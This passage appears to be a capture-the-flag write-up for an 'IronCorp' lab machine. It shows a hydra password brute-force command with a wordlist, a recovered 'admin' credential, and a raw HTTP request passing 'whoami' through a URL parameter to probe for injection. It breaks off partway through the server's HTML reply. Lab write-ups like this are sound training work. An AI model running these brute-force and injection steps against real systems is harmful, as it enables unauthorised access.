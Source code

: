<br>
<br>
<h3 align="center">T1110.001 – Password Guessing</h3>
<p align= "center">admin: password123</p>

```bash
:~/IronCorp# hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 11025 admin.ironcorp.me http-get '/'
```

<img width="1099" height="126" alt="image" src="https://github.com/user-attachments/assets/b0b16af0-ccd0-43d9-b719-fe1c44d2e03d" />

<br>
<br>

<p align="center"><code>admin.ironcorp.me</code>:11025</p>

<img width="1131" height="542" alt="image" src="https://github.com/user-attachments/assets/85fc8301-cea7-4fe2-b2ed-2102f69e018e" />

<br>
<br>

<h3>whoami</h3>

```bash
GET /?r=whoami HTTP/1.1
Host: admin.ironcorp.me:11025
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic ************************
Connection: keep-alive
Referer: http://admin.ironcorp.me:11025/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


```bash
HTTP/1.1 200 OK
Date: Wed, 24 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.4
X-Powered-By: PHP/7.4.4
Content-Length: 2796
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<html>
<head>
...
</script>

<!DOCTYPE HTML>
<html>
    <head>
        <title>Search Panel</title>
    </head>

    <body>
        <h2>Ultimate search bar</h2>

                <div>
           
            <form method="GET" action="#">
```